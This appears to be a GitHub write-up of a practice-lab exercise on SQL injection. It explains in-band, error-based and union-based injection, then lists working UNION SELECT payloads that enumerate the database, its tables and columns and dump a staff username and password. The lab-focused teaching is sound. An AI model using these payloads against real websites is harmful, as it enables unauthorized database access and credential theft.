 ### In-Band SQL Injection

In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.


### Error-Based SQL Injection

This type of SQL Injection is the most useful for easily obtaining information about the database structure, as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database. 


### Union-Based SQL Injection

This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.


### Practical:
Click the green "Start Machine" button to use the SQL Injection Example practice lab. Each level contains a mock browser and also SQL Query and Error boxes to assist in getting your queries/payload correct.

Level one of the practice lab contains a mock browser and website featuring a blog with different articles, which can be accessed by changing the id number in the query string.


The key to discovering error-based SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced; these are most commonly single apostrophes ( ' ) or a quotation mark ( " ).


Try typing an apostrophe ( ' ) after the id=1 and press enter. And you'll see this returns an SQL error informing you of an error in your syntax. The fact that you've received this error message confirms the existence of an SQL Injection vulnerability. We can now exploit this vulnerability and use the error messages to learn more about the database structure. 


The first thing we need to do is return data to the browser without displaying an error message. Firstly, we'll try the UNION operator so we can receive an extra result if we choose it. Try setting the mock browsers id parameter to:

```
1 UNION SELECT 1
```

This statement should produce an error message informing you that the UNION SELECT statement has a different number of columns than the original SELECT query. So let's try again but add another column:

```
1 UNION SELECT 1,2
```

Same error again, so let's repeat by adding another column:

```
1 UNION SELECT 1,2,3
```

Success, the error message has gone, and the article is being displayed, but now we want to display our data instead of the article. The article is displayed because it takes the first returned result somewhere in the website's code and shows that. To get around that, we need the first query to produce no results. This can simply be done by changing the article ID from 1 to 0.

```
0 UNION SELECT 1,2,3
```

You'll now see the article is just made up of the result from the UNION select, returning the column values 1, 2, and 3. We can start using these returned values to retrieve more useful information. First, we'll get the database name that we have access to:

```
0 UNION SELECT 1,2,database()
```

You'll now see where the number 3 was previously displayed; it now shows the name of the database, which is sqli_one.


Our next query will gather a list of tables that are in this database.

```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

There are a couple of new things to learn in this query. Firstly, the method group_concat() gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. The next thing is the information_schema database; every user of the database has access to this, and it contains information about all the databases and tables the user has access to. In this particular query, we're interested in listing all the tables in the sqli_one database, which is article and staff_users. 


As the first level aims to discover Martin's password, the staff_users table is what interests us. We can utilise the information_schema database again to find the structure of this table using the below query.

```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

This is similar to the previous SQL query. However, the information we want to retrieve has changed from table_name to column_name, the table we are querying in the information_schema database has changed from tables to columns, and we're searching for any rows where the table_name column has a value of staff_users.


The query results provide three columns for the staff_users table: id, password, and username. We can use the username and password columns for our following query to retrieve the user's information.

```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

Again, we use the group_concat method to return all of the rows into one string and make it easier to read. We've also added ,':', to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML ***<br>*** tag that forces each result to be on a separate line to make for easier reading.


You should now have access to Martin's password to enter and move to the next level.

*************

## Let's go to hacking with mr.4bo-4yman ;)        
i will follow the same steps which we learned  GOO;


<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8cf76b5b-82c9-4d3c-b5e1-f0f4e799d18a ">
</p>

This default page, we try ***id=2***

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/704f2e5e-daa5-4b4a-9725-d3d06abe9c4e ">
</p>

We need to know this site exist SQL Injection OR No , We try ```'``` or ```"``` to know this.

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/55d4d594-6438-4ad8-b478-92b319d7589c ">
</p>

Now, We all know that exist SQL Injection , LET'S GO ;)

First we try it :


```
1 UNION SELECT 1
```

And

```
1 UNION SELECT 1,2
```

And
```
1 UNION SELECT 1,2,3
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/3ca5f799-54b8-4f40-84e1-343f20954fb9 ">
</p>

this failed.

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/56079864-1ded-429f-9079-29a1f88289d9 ">
</p>

This failed.


<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2f40d53b-439e-4b69-ba2a-682f393d1f2d ">
</p>

WOOW, This successful! 

#### what is the Next ?

We change id from ```1``` to ```0``` :

```
0 UNION SELECT 1,2,3
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8cda1be0-f704-48c0-9f75-d1cf0e67024a ">
</p>

Verry Good, We access to Database.
Now i will try it:

```
0 UNION SELECT 1,2,database()
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/334e9086-2ceb-45e7-9ac5-83a58f2e0d5e ">
</p>

sqli_one is name of database and now access to sqli_one.


```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0eaf4817-3692-48e5-8f24-f12a77dcdc5e ">
</p>


Now, we will try it:

```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2d149e5b-ca76-4718-a246-6a49525999b1 ">
</p>

Now, We try it:

```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0c8f0dc2-577d-4395-bee1-848b40ba8e28 ">
</p>

### WOOOOW!!! 
WE GET PASSWORD OF MARTIN IS : ```pa$$word```  GOOD BYE ;)







<br>

******
if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:
*****
